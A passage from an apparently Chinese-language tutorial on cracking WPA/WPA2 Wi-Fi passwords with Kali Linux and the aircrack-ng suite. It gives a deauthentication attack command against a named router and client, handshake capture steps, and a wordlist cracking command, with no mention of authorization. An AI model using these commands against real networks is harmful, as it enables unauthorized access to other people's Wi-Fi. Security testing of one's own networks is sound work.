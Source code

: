 -c指定频道号

-bssid指定路由器bssid

-w指定抓取的数据包保存位置

![Kali Linux使用Aircrack破解wifi密码(wpa/wpa2)](https://wrxinyue.oss-cn-hongkong.aliyuncs.com/img/1-1G016111630U9.JPG)

 

**强制连接到wifi的设备重新连接路由器**

现在我们只要等用户连接/重连接wifi了，运气不好也许要很长时间。

但是我们是不会等的，这不是耐心黑客该干的事。有一个叫aireplay-ng的工具，它可以强制用户断开wifi连接；原理是，给连接到wifi的一个设备发送一个deauth（反认证）包，让那个设备断开wifi，随后它自然会再次连接wifi。

aireplay-ng的生效前提是，wifi网络中至少有一个连接的设备。从上图可以看到哪些设备连接到了wifi，STATION就是连接设备的MAC地址，记住一个。

[aircrack-ng官网](https://www.aircrack-ng.org/)

打开新终端执行：

~~~shell
aireplay-ng -0 2 -a C8:3A:35:30:3E:C8 -c B8:E8:56:09:CC:9C wlan0mon
~~~

参数解释：

-0表示发起deauthentication攻击

-a指定无线路由器BSSID

-c指定强制断开的设备

![Kali Linux使用Aircrack破解wifi密码(wpa/wpa2)](https://ywnz.com/uploads/allimg/17/1-1G0161116423V.JPG)

如果成功：

![Kali Linux使用Aircrack破解wifi密码(wpa/wpa2)](https://ywnz.com/uploads/allimg/17/1-1G016111A4343.JPG)

按Ctrl-C结束抓包。

我们已经得到了想要的握手包了，可以结束无线网卡的监控模式了：

~~~shell
airmon-ng stop wlan0mon
~~~

![Kali Linux使用Aircrack破解wifi密码(wpa/wpa2)](https://ywnz.com/uploads/allimg/17/1-1G016111F5355.JPG)

**开始破解密码**

~~~shell
aircrack-ng -a2 -b C8:3A:35:30:3E:C8 -w /usr/share/wordlists/rockyou.txt ~/*.cap
~~~

参数解释：

-a2代表WPA的握手包

-b指定要破解的wifi BSSID。
